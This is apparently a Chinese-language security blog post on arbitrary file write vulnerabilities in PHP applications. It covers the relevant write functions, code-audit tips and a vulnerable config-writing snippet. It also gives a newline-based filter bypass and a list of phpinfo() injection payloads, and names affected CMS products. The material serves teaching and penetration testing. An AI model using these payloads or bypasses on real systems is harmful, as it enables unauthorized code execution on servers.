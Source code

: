 ```yaml
---
layout: post
title:  "深入理解任意文件写入漏洞"
categories: Web安全
tags: 渗透测试 
author: 0e0w
---
```


* content
{:toc}
这是一篇关于任意文件写入漏洞的文章。由于作者能力有限，文中定会出现一些错误，请谅解。本文会不定期更新，最近一次更新时间为2020年9月15日。鉴于凡世之忙碌，下一次更新也许是明天，也许是下辈子。
> 任意文件写入不同与文件上传漏洞，有些人也称之为是命令执行漏洞。漏洞出现的原因经常是在后台的一些配置文件修改编辑等处，程序开发过程中将这些配置信息未做好过滤保存到了文件中，用户可以在文件中写入任意的内容，导致漏洞产生。

## 01-基本概述

任意文件写入可以直接Getshell，危害很大。但在渗透测试中，往往出现在Cms中。不进行代码审计的情况下，较难直接获取权限，因为无法判断写入到了那个文件中，但也有例外的情况。关于任意文件写入漏洞，有三个前提条件：

- 文件写入函数的参数用户可控；
- 可控参数没有做好过滤；
- 写入的文件类型为可执行文件。

## 02-代码审计

任意文件写入漏洞代码审计思路：寻找文件写入或文件保存等相关函数，查看函数中变量用户是否可控，是否进行了过滤处理，是否保存到了可执行文件中。一般采用代码审计工具可以很好的找出此类漏洞，对于误报情况较大的情况，只需要人工去逐个分析排查即可。

**一、PHP文件写入**

**相关函数**

- fopen() 创建文件，打开文件或URL。

  ```php
  $file = fopen("admin.php", "w")
  ```

- fwrite() 写入文件

  ```php
  fwrite($file, $str)
  ```

- file_put_contents() 把字符串写入文件

  ```php
  file_put_contents("admin.php","<?PHP phpinfo();?>");
  ```

- fputcsv() 将行数据格式化为CSV格式并写入文件

- fputs() 将字符串写入文件

- socket_write() 写一个 Socket

- session_write_close() 向Session中写入数据并终止Session

- ftp_nb_get() 从FTP服务器上获取文件并写入本地文件

- imagefttext() 使用FreeType2字体将文本写入图像

- imagettftext() 用TrueType字体向图像写入文本

**二、Java文件写入**

**相关函数**

- FileWriter()
- BufferedWriter()

**三、基础绕过方法**

没有任何过滤直接将字符串写入文件的情况还是比较少的。有一部分漏洞是已经对参数做了过滤，但是没有完美过滤，导致使用某些技巧可言绕过。

- 利用换行符来绕过正则匹配。

  ```php
  <?php
  $api = addslashes($_GET['api']);
  $file = file_get_contents('./option.php');
  $file = preg_replace("/\\\$API = '.*';/", "\$API = '{$api}';", $file);
  file_put_contents('./option.php', $file);
  ```

  - update.php?api=aaaaa%27;%0aphpinfo();//
  - update.php?api=aaaaa

- 利用 preg_replace函数的问题。

- 利用 preg_replace() 第二个参数，自动转义反斜线。

- 利用正则\n|$n，将第n个子组替换到文本中

  ```php
  $a = 'aa1234aa';
  $b = preg_replace('/aa(\d+)aa/', 'bb\1bb', $a);
  echo $b;
  ```

- 多次提交进行逃逸。

## 03-渗透测试

在渗透测试中，可以在配置文件修改等地方插入类似的payload，查看当前页面的返回情况，或者是通过以往的经验来判断文件写入的位置。很多情况下，配置文件也并非是写入到了可执行文件中，而是写入到了数据库中。在渗透测试中，任意文件写入有俩种常见的情况：

- 配置文件处任意字符串写入

- 程序安装时install任意字符串写入

**常见payload**

```php
<?php phpinfo();?>
phpinfo();
";phpinfo();//
";@phpinfo();//
';phpinfo();//
‘;phpinfo();//
';@phpinfo();//
\',@phpinfo(),//',
\';phpinfo();//
aaa';phpinfo();%0a//
';%0aphpinfo();//
;phpinfo();
\%27;%0aphpinfo();%23
\%27;%0aphpinfo();//
\%27);%0aphpinfo();%23
\%27);phpinfo();%23
';phpinfo();//
");phpinfo();//
```

## 04-典型案例

出现过任意文件写入漏洞的程序。

- phpcms 
- SeaCms
- Discuz 
- 74cms
- dedecms
- 致远OA v8任意文件写入

## 05-漏洞修复

- 尽量避免在可执行文件中保存字符串内容。
- 对写入的字符串进行完美的过滤。

## 06-参考链接

- https://www.leavesongs.com/PENETRATION/thinking-about-config-file-arbitrary-write.html
- http://suo.im/5VUqhn
- https://blog.csdn.net/Ca3tie1/article/details/104830356